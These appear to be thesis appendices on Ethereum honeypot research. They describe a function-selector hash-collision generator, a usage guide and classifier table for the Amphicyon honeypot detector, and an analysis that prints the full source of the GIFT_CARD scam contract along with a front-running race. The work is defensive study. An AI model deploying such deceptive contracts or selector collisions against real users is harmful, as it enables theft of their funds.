In the second mode of \textsc{Sact}, more natural-looking identifiers can be created for hash-collisions. To define possible identifers, so-called \textit{dictionary}-files can be used. A dictionary contains an ordered list of \textit{segments}, which are a set of multiple ore one strings. To generate an identifier, from each segment one string is taken and concatenated in order.

Dictionaries can be stored in dictionary files, which are simple text files. The newline-character is used as a delimiter for the strings; with the special strings \texttt{[NEXT]} starting the next segment of the dictionary and \texttt{[END]} ending the read input. The later command leaves the possibility for comments or information required by the text editor. The following dictionary file would exactly generate the two entries \texttt{"Hello World!"} and \texttt{"Hello C!"}.

\begin{verbatim}
Hello
[NEXT]
World
C
[NEXT]
!
[END]
\end{verbatim}

Two find prettier hash collisions, it would be too difficult to build up a dictionary with more \( 2^{32} \) entries; it is simpler to use two different dictionaries with \( \sqrt{2^{32}} = 2^{16} \) terms. Because of this, this mode is built to use dictionaries both as source and target of the collision.

The dictionary mode can be launched using \texttt{--mode=DICTIONARY}, specifying both used dictionary files as the arguments:
\begin{verbatim}
$ ./collision "data/from.txt" "data/to.txt" --mode=DICTIONARY
hash("transferMyMoneyToTheAddressPlease(uint232,bool,address)")
    = hash("validateInputWealthInstantaneously(int256[])") = 014f3c83
hash("transferMyCashToTheAccount(uint256,bool,address)")
    = hash("validateInputsAndGetSzaboGently(int256[])") = 60c3ba0f
...
\end{verbatim}

Note that, for improved performance and storage usage, the smaller dictionary should be used on the to-side, because this side will be stored in the memory for comparison.

\pagebreak{}

\section{Using Amphicyon}
\label{appendix:amphicyon}
In the following section of the appendix, a short usage guide for \textsc{Amphicyon}, a tool to analyze the source code of contracts in Solidity and identify honeypots, will be provided.

To run, \textsc{Amphicyon} requires Node.js 10 and the corresponding version of yarn installed. To download all other dependencies from the npm-Repositories, use the command \texttt{yarn} launched at the base folder \texttt{amphicyon} can be used.

\subsection{Analyzing Smart Contracts}
To analyze a single smart contract, there is the command \texttt{yarn run contract:analyze <address>}. It takes a path to a file or an address as an input, and outputs its analysis result nicely formatted to the console. If an address is used, an active internet connection is required to download the contract source code from etherscan.

The output of such an execution can be seen in figure \ref{figure:appendix:amphicyon:contract:analyze}. In the first section, all inactive and not decidable classifiers are printed out, followed by the active classifiers of this analyzed contract along with a short description and a part of the source code that was relevant for this decision. In the end, the contract address is displayed together with the final score, that can range from \( 0 \) to \( \infty \), of which the later is displayed as \texttt{SURE}. The displayed value is the ratio of the probabilities for the contract being a honeypot and the contract being harmless. If this ratio is larger than \( 4 \), the contract is considered a honeypot.

Afterwards, the user is able to review the contract manually and state whether the decision made by \textsc{Amphicyon} was correct -- this information is used later to build up the classifiers of the bayesian filter.

\vspace{1em}
\begin{minipage}{\linewidth}
	\centering
	
\includegraphics[width=12cm]{img/amphicyon/contract_analyze.pdf}
	\captionof{figure}[Console output for contract:analyze]{Console output for a single contract with detailed information about the found classifiers when calling \texttt{yarn run contract:analyze <address>}}
	\label{figure:appendix:amphicyon:contract:analyze}
\end{minipage}

\subsection{Bulk-Analysis}
To make the analysis of larger amounts of smart contracts possible, \textsc{Amphicyon} also has the capability to download all contracts that can be found on the "Verified Contract"-List of Etherscan. To accomplish this, the command \texttt{yarn run database:update} can be used, which will download and analyze the contracts at the latest ten pages of the list. For larger amounts, the argument \texttt{--pages=100} (here for 100 pages or 2500 smart contracts) can be used. If a contract or its analysis was already done before, the contract will not be downloaded or analyzed again.

In the data provided along with the submission, more than 8000 contracts have been downloaded. This has required more than two hours (ignoring connectivity problems), since the rate of requests per second is limited to be not blocked by Etherscan.

To display the results of the analysis of the downloaded contracts, \texttt{yarn run database:find} can be used to list all contracts the tool that were flagged as honeypots. As can be seen in the console output at figure \ref{figure:appendix:amphicyon:database:find}, along with the score all the found classifiers and the etherscan address is displayed. They are ordered by the date of the time they were downloaded.

\vspace{1em}
\begin{minipage}{\linewidth}
	\centering
	
\includegraphics[width=12cm]{img/amphicyon/database_find.pdf}
	\captionof{figure}[Console output for database:find]{Console output when finding potential honeypot contracts within all downloaded contracts using \texttt{yarn run database:find}}
	\label{figure:appendix:amphicyon:database:find}
\end{minipage}

To retrieve information about the role of the classifiers, the command \texttt{yarn run database:count} can be used. It prints the amount of contracts the classifier was marked as found at, additionally separated into contracts that were later considered honeypots and those that were later considered harmless. The console output can be seen in figure \ref{figure:appendix:amphicyon:database:count}.

\vspace{1em}
\begin{minipage}{\linewidth}
	\centering
	
\includegraphics[width=12cm]{img/amphicyon/database_count.pdf}
	\captionof{figure}[Console output for database:count]{Console output when counting the classifier results for all downloaded contracts using \texttt{yarn run database:count}}
	\label{figure:appendix:amphicyon:database:count}
\end{minipage}

\subsection{Updating the Classifiers}
Due to the small sample size, for the final evaluation of \textsc{Amphicyon} the bayesian classifiers were build manually. The tool also implements functionality to build the classifiers based on the manual analysis results that can be added using \texttt{yarn run contract:analyze}: By calling \texttt{yarn run classifiers:update}, the contracts with manual decisions will be downloaded, analyzed and counted to build a valid classifier file that can be used to replace the default file.

\pagebreak{}

\section{Amphicyon Classifier Table}
\label{appendix:classifiers}

\begin{table}[H]
	\resizebox{\textwidth}{!}{%
		\begin{tabular}{@{}lllll@{}}
			\toprule
			\textbf{Type}                                                   & \textbf{Classifier name}                & \textbf{Using}      & \( \frac{\textsf{P} \left( \textnormal{Honeypot} \mid \texttt{FOUND} \right)}{\textsf{P} \left( \textnormal{Harmless} \mid \texttt{FOUND} \right)} \) & \( \frac{\textsf{P} \left( \textnormal{Honeypot} \mid \neg \texttt{FOUND} \right)}{\textsf{P} \left( \textnormal{Harmless} \mid \neg \texttt{FOUND} \right)} \) \\ \midrule
			\multirow{5}{*}{Property to\linebreak{}attract interest}        & \texttt{canSendEther}                   & \texttt{AST}        & \( 200 \% \)                                                                                                                                          & \( 0 \% \)                                                                                                                                                      \\
			                                                                & \texttt{containsTokenInterface}         & \texttt{AST}        & \( 20 \% \)                                                                                                                                           & \( 180 \% \)                                                                                                                                                    \\
			                                                                & \texttt{oneEtherBalance}                & \texttt{ETHERSCAN}  & \( 1000 \% \)                                                                                                                                         & \( 90 \% \)                                                                                                                                                     \\
			                                                                & \texttt{understandableLength}           & \texttt{SOURCECODE} & \( 200 \% \)                                                                                                                                          & \( 0 \% \)                                                                                                                                                      \\
			                                                                & \texttt{uppercaseName}                  & \texttt{ETHERSCAN}  & \( 200 \% \)                                                                                                                                          & \( 90 \% \)                                                                                                                                                     \\ \midrule
			Follow-Up                                                       & \texttt{honeypotLatched}                & \texttt{ETHERSCAN}  & \( 100 \% \)                                                                                                                                          & \( 100 \% \)                                                                                                                                                    \\ \midrule
			\multirow{7}{*}{Underhanded Solidity\linebreak{}code technique} & \texttt{codeHiddenBySpaces}             & \texttt{SOURCECODE} & \( \infty \)                                                                                                                                          & \( 95 \% \)                                                                                                                                                     \\
			                                                                & \texttt{comparingValueAndBalance}       & \texttt{AST}        & \( \infty \)                                                                                                                                          & \( 95 \% \)                                                                                                                                                     \\
			                                                                & \texttt{emptyStringCompilerBug}         & \texttt{AST}        & \( \infty \)                                                                                                                                          & \( 95 \% \)                                                                                                                                                     \\
			                                                                & \texttt{shadowedParentVariable}         & \texttt{AST}        & \( 200 \% \)                                                                                                                                          & \( 90 \% \)                                                                                                                                                     \\
			                                                                & \texttt{similarVariableNames}           & \texttt{AST}        & \( 100 \% \)                                                                                                                                          & \( 100 \% \)                                                                                                                                                    \\
			                                                                & \texttt{storageNullPointer}             & \texttt{AST}        & \( \infty \)                                                                                                                                          & \( 95 \% \)                                                                                                                                                     \\
			                                                                & \texttt{uncalledExternalCall}           & \texttt{AST}        & \( \infty \)                                                                                                                                          & \( 95 \% \)                                                                                                                                                     \\ \midrule
			\multirow{5}{*}{Typical Honeypot\linebreak{}coding patterns}    & \texttt{hashedVariableCanBeSetUnhashed} & \texttt{AST}        & \( \infty \)                                                                                                                                          & \( 95 \% \)                                                                                                                                                     \\
			                                                                & \texttt{initializationPhase}            & \texttt{AST}        & \( 600 \% \)                                                                                                                                          & \( 75 \% \)                                                                                                                                                     \\
			                                                                & \texttt{modifiableLibraryVariable}      & \texttt{AST}        & \( 200 \% \)                                                                                                                                          & \( 90 \% \)                                                                                                                                                     \\
			                                                                & \texttt{preventableTransfers }          & \texttt{AST}        & \( 150 \% \)                                                                                                                                          & \( 90 \% \)                                                                                                                                                     \\
			                                                                & \texttt{silentlyFailingFunction}        & \texttt{AST}        & \( 750 \% \)                                                                                                                                          & \( 75 \% \)                                                                                                                                                     \\ \midrule
		\end{tabular}%
	}
	\caption{List of the classifiers implemented by \textsc{Amphicyon}.}
	\label{table:classifiers}
\end{table}

The ratios \( \frac{\textsf{P} \left( \textnormal{Honeypot} \mid \texttt{FOUND} \right)}{\textsf{P} \left( \textnormal{Harmless} \mid \texttt{FOUND} \right)} \) (and \( \frac{\textsf{P} \left( \textnormal{Honeypot} \mid \neg \texttt{FOUND} \right)}{\textsf{P} \left( \textnormal{Harmless} \mid \neg \texttt{FOUND} \right)} \)) (which are rounded to a precision of \( 5 \% \) in the table) reveal how the classifier was weighted in the honeypot detection. A value above \( 100 \% \) implicates, that the the contract was more likely to be seen as a honeypot if the classifier was found (or not found); with a value below \( 100 \% \), the classifier decreased the probability of the contract being seen as a honeypot.

In the following list, for every classifier of \textsc{Amphicyon} a short description is given that explains when the classifier is activated:

\begin{itemize}
	\item[\texttt{canSendEther}] Contains any \mintinline{solidity}{transfer()} of Ether
	\item[\texttt{containsTokenInterface}] Function identifiers appear in ERC20-standard
	\item[\texttt{oneEtherBalance}] Balance of one Ether
	\item[\texttt{understandableLength}] Less than 150 lines, so that the contract can be easily understood
	\item[\texttt{uppercaseName}] Contract name is in uppercase letters
	\item[\texttt{honeypotLatched}] The honeypot received Ether from two different accounts
	\item[\texttt{codeHiddenBySpaces}] Contains more than 200 spaces in a row
	\item[\texttt{comparingValueAndBalance}] Contains a comparison of \mintinline{solidity}{msg.value} and \mintinline{solidity}{this.balance}
	\item[\texttt{emptyStringCompilerBug}] Contains a function call containing an empty string as an argument, and the compiler version of the contract was affected by the compiler bug
	\item[\texttt{shadowedParentVariable}] Contains a state variable that is also present in parent contract
	\item[\texttt{similarVariableNames}] Contains very similar variable names, that might get confused
	\item[\texttt{storageNullPointer}] Contains a reference to a storage null-pinter
	\item[\texttt{uncalledExternalCall}] Contains a member-access of e.g. \mintinline{solidity}{.value()}, which is not for a second time
	\item[\texttt{hashedVariableCanBeSetUnhashed}] Contain a \mintinline{solidity}{bytes32} state variable, that can be both set directly and by hashing another value
	\item[\texttt{initializationPhase}] Contains a \mintinline{solidity}{bool} storage variable, that can prevent the execution of functions
	\item[\texttt{modifiableLibraryVariable}] A library reference can be changed outside the constructor
	\item[\texttt{preventableTransfers }] A transfer occurs in the same function as an external function call
	\item[\texttt{silentlyFailingFunction}] The whole function body is surrounded by an \mintinline{solidity}{if}-statement
\end{itemize}

\pagebreak{}

\section{Analyzing the Race-Honeypot}
\label{appendix:racehoneypot}
This part of the appendix will be used to present additional details about the race-honeypot that was found using \textsc{Amphicyon}. Especially, the traces of the transaction race are explained in detail. The \texttt{GIFT_CARD}-contract that is being analyzed here can be found on the Ethereum Blockchain at \cite{etherscan:giftcard}.

\subsection{The Honeypot Source Code}
As every honeypot, the \texttt{GIFT_CARD}-honeypot, whose source code is displayed in listing \ref{lst:honeypot:transactionrace}, contains an obvious "bug" making the victim interested in hacking the contract. In this case, the hash value restricting access to the "gift" can be overwritten when sending another 0.2 Ether to the \mintinline{solidity}{Put()}-function after it has already been set up.

\begin{listing}[H]
	\begin{minted}[
        linenos=true,
        firstnumber=1
    ]{solidity}
contract GIFT_CARD {
    function Put(bytes32 _hash, uint _unlockTime) public payable {
        if(!locked && msg.value > 200000000000000000)// 0.2 ETH {
            unlockTime = now+_unlockTime;
            hashPass = _hash;
        }
    }
    
    function Take(bytes _pass) external payable access(_pass) {
        if(hashPass == keccak256(_pass) && now>unlockTime && msg.sender==tx.origin) {
            msg.sender.transfer(this.balance);
        }
    }
    
    function Lock(bytes _pass) external payable access(_pass) {
        locked = true;
    }
    
    modifier access(bytes _pass) {
        if(hashPass == keccak256(_pass) && now>unlockTime && msg.sender==tx.origin)
            _;
    }
    
    bytes32 public hashPass;
    uint public unlockTime;
    bool public locked = false;
    
    function GetHash(bytes pass) public constant returns (bytes32) {return keccak256(pass);}
    
    function() public payable{}
}
    \end{minted}
	\caption{The \texttt{GIFT_CARD}-honeypot smart contract source code}
	\label{lst:appendix:giftcard}
\end{listing}

As a bait, during setup the \texttt{GIFT_CARD} had received 0.2 Ether using a \mintinline{solidity}{Put(0x..., 0)}-call.

As the first step of the attempt to hack the honeypot, the victim sent the 0.2 ether along with a call to \mintinline{solidity}{Put(0x..., 0)}. When starting the transaction for retrieval, another transaction was spawned attempting to retrieve the ether as well:

\subsection{Two conflicting transactions} At block height \texttt{5849419} two transactions were received by the contract: The first one having a hash starting with \texttt{0xe4e2d96}, that was started by the victim, and the second one with a hash of \texttt{0xb22467}, both calling \mintinline{solidity}{Take("65313763...")} with the same secret value to retrieve the "gift" from the contract.

While the average gas price of transactions in this block was \( 13.5 \textnormal{ Gwei} \)\footnote{\( \approxeq \frac{0.1081 \cdot 10^9}{7983695} \), which is the block reward divided by the gas used in the block \cite{etherscan:giftcard}}, both of those transactions had considerably higher gas prices:

To maximize profit, the miner chose to include transactions from the transaction pool starting with the one with the highest gas price: While transaction \texttt{0xb22467} had a gas price of \( 41 \textnormal{ Gwei} \), it was included as the 18th transaction of the block. \texttt{0xe4e2d96}s gas price was almost exactly \( 5 \) times higher at about \( 205 \textnormal{ Gwei} \), making it the highest gas price of this block and therefore the first transaction to be included by the miner. Because of this, the complete "gift" was sent to the creator of the second transaction, and not to the address of the victim.

\subsection{Interpretation}
The only way this could have worked is that the person behind address \texttt{0xbd7d} had been watching the incoming transactions in the transaction pool for a transaction calling \mintinline{solidity}{Take()} on the honeypot contract. Once the transaction of the victim was received which contained the plain-text of the hash stored in the contract an identical \mintinline{solidity}{Take()}-transaction was issued with a higher gas price, hoping for this transaction to be included first.

